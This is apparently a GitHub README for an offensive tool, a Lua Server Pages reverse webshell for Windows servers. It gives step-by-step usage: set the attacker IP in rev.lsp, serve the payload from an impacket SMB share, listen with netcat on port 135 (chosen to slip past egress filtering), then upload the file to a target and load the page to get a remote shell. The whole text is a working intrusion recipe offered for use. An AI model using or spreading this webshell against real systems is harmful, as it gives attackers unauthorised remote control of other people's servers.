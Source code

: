 # LSP Reverse Shell
A Lua Server Pages reverse webshell for Windows. I noticed there was no '.lsp' webshell of any sort available online, so now there is.

Since the Lua sockets module (the traditional Lua reverse shell method) often isn't installed, this webshell opts instead to execute a reverse shell in-memory off of an SMB share. 

The reverse shell port is set to 135 to avoid any egress issues.

Be sure to install impacket, if it isn't already installed, since you'll need smbserver.py.
### Usage:
* ```git clone https://github.com/the-emmon/lsp-reverse-shell```
* ```cd lsp-reverse-shell```
* Change the IP address in 'rev.lsp' to your machine.
* ``` sudo smbserver.py SMB . -comment share -ts -debug -smb2support -username user -password 'pass' ```
* Start a listener in another window with ```sudo nc -nlvp 135```
* Upload the 'rev.lsp' file, open the page, and you should immediately catch a shell.
